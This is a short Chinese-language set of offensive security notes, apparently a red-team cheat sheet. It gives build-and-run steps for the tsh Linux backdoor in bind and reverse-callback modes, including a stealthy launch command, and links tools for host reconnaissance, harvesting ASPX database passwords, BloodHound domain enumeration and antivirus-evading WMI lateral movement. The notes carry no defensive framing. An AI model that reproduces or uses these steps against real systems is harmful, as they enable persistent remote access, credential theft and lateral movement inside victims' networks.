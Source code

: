 # 0x01 后门远控C2
待测试
```
Linux后门
https://github.com/orangetw/tsh

正向
vim tsh.h
#删除两个call_back字段
设置密码
make linux
执行./tshd
在控制端执行./tsh ip

反向
git clone https://github.com/orangetw/tsh.git
cd tsh
vim tsh.h
#控制端
make linux
./tsh cb
#被控端
umask 077; HOME=/var/tmp ./tshd
./tshd
```

# 0x01 主机信息收集
待测试
```
ASPX网站数据库密码加密存储
https://github.com/aleenzz/InjectSQLServer

https://github.com/GhostPack/Seatbelt
```
# 0x02 内网信息探测
待测试
```
nltest
```
# 0x03 内网服务攻击
域环境下常规打法：上传bloodbound客户端搜集域内信息，把结果回传本地后，利用kali的bloodbound服务端解析，分析域内的薄弱环节
```
【免杀的】横向移动命令执行
https://github.com/rootclay/WMIHACKER
```
# 参考
```
https://github.com/safe6Sec/command

https://mp.weixin.qq.com/s/tqd9jJJv4bmzN6xVdpGDow
```